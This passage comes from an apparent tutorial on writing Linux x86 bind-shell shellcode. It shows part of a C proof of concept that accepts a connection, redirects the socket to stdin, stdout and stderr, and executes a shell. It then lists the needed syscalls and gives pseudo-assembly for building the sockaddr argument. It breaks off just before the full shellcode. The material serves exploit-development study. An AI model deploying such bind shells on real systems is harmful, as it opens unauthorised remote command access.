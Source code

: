     	listen(fd, 1);
    
    	newfd = accept(fd, NULL, NULL);
    
    	//dup2 (0,1,2) (client will be connected to stdin, stdout and stderr)
    	dup2(newfd, STDIN);
    	dup2(newfd, STDOUT);
    	dup2(newfd, STDERR);
    
    	execve(argv[0], &argv[0], NULL);
    
    	return 0;
    }


As you can see in the above PoC, in our shellcode we'll need these syscall:



	
  1. four sys_socketcall(int call, unsigned long *args) where int call will be SYS_SOCKET, SYS_BIND, SYS_LISTEN and SYS_ACCEPT according to /usr/include/linux/net.h;

	
  2. three sys_dup2(int oldfd, int newfd);

	
  3. one sys_execve(char *filename, char *argv[], char *envp[]) where both *argv[] and *envp[]** must be null terminated**


The last thing i checked (using strace) before start to code is how (struct sockaddr *) &server_addr is passed to the syscall.


[![Strace output]({{ site.baseurl }}/images/2014/04/strace_ass1-1024x566.png)]({{ site.baseurl }}/images/2014/04/strace_ass1.png)


The green rectangle translated in pseudo-assembly code become:



	
  1. push sin_addr

	
  2. push sin_port

	
  3. push sa_family

	
  4. mov ecx,esp

	
  5. push 16

	
  6. push ecx

	
  7. push newfd

	
  8. mov ecx,esp ;now ecx contains the address of (3, {sa_family, sin_port, sin_addr}, 16)


And below there is the complete shellcode:
